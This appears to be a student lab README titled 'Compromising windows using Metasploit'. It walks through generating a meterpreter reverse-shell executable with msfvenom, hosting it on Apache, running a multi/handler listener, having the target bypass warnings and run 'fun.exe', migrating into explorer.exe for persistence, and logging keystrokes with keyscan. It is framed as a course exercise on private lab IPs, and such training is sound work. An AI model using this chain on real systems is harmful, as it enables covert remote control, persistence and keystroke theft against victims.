 # EX 05: COMPROMISING-WINDOWS-USING -METASPLOIT:
Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![alt text](SCREENSHOT/image.png)
```
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
```
## OUTPUT:
![alt text](SCREENSHOT/image-1.png)
```
copy the fun.exe into the apache /var/www/html folder
```
## OUTPUT:
![alt text](SCREENSHOT/image-2.png)

```
Start apache server
sudo systemctl apache2 start
```
## OUTPUT:
![alt text](SCREENSHOT/image-3.png)
```
Check the status of apache2
```
## OUTPUT:
![alt text](SCREENSHOT/image-4.png)
```
Invoke msfconsole:
```
## OUTPUT:
![alt text](SCREENSHOT/image-5.png)

```
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
```

![alt text](SCREENSHOT/image-6.png)
```
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
```

![alt text](SCREENSHOT/image-7.png)
```
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
```

![alt text](SCREENSHOT/image-8.png)
```
Bypass any warning boxes, double-click the file, and allow it to run.
```


![alt text](SCREENSHOT/image-9.png)
```
On kali give the command exploit
```


![alt text](SCREENSHOT/image-10.png)
```
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
```

![alt text](SCREENSHOT/image-11.png)

```
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
```

![alt text](SCREENSHOT/image-12.png)

```
Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
```

![alt text](SCREENSHOT/image-13.png)

![alt text](SCREENSHOT/image-14.png)
```
keyscan_dump	Shows the keystrokes captured so far
```

![alt text](SCREENSHOT/image-15.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

